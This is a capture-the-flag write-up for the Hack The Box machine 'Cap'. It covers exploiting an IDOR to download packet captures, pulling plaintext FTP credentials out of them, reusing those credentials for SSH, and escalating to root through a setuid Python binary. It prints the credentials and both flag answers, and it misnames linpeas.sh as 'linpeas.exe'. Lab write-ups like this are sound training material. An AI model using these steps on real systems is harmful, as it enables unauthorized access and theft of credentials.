







### Cap
**OS:** Linux<br>
**Difficulty:** Easy<br><br>
**Tags:** Forensics, Vulnerability Assessment, Web Application, Security Operations, Log Analysis, Common Security Controls, Clear Text Credentials, File System Configuration, Insecure Direct Object Reference (IDOR), Python

---

#### Insecure Direct Object Reference

Running an [initial port scan](port_scan), we identify FTP, SSH, and HTTP services running on the target system. We then visit the website and discover that we are logged into a security dashboard with the username Nathan:



In the security dashboard, we navigate to the security snapshot page. Looking at the URL, we see we're viewing the 4th snapshot, which displays statistics for snapshot, along with a download button to retrieve the pcap file for further analysis:



We download the pcap and intercept the http request using the Proxy tab in Burp Suite:

```
GET /download/4 HTTP/1.1
Host: 10.129.91.36
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.91.36/data/4
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

It downloads the pcap by making an http get request to `/download/4`, which might indicate an insecure direct object reference vulnerability. We make a request to `/download/3` and successfully download the previous a snapshot, verifying the presence of the vulnerability. 

In Burp Suite, we send the intercepted request to the Intruder. Using a Sniper attack, we test different pcap file reference numbers and find that the valid ones range from 0 to 4:



---

#### Packet Capture Analysis

We download all the valid pcap files from the dashboard and merge them into one file:

```bash
$ touch download.pcap
$ for i in {0..4}; do wget http://10.129.91.36/download/$i -O download$i.pcap; mergecap -w download.pcap download.pcap download$i.pcap; done
```

We open the [merged pcap file](download.pcap) in Wireshark and find that packet 34 seems to pertain to a vsFTPd 3.0.3 session. We follow the [TCP stream](ftp_stream) of packet 34 to examine the entire ftp session and find that the user login credentials `nathan:Buck3tH4TF0RM3!` are passed in plaintext:



----

#### Initial Access

From our port scan, we discovered that ssh was running on the target machine. We reuse the ftp login credentials gained from the pcap file, gaining remote ssh access as nathan:



---

#### Privilege Escalation

We download the `linpeas.exe` executable onto our local machine and transfer it from our machine to the target machine:

```bash
$ wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
$ scp linpeas.sh nathan@10.129.91.36:/home/nathan
```

On the target machine, we run the `linpeas.exe` executable and discover that Python has special setuid permissions:



Using the Python interpreter we set the uid to 0, allowing us to make syscalls as root:



---

#### User Flag
> 780856c2f493cfe0b0918cecf08720fe


#### Root Flag
> 01364b6ad0bf72b02563ac917f23a7fa


---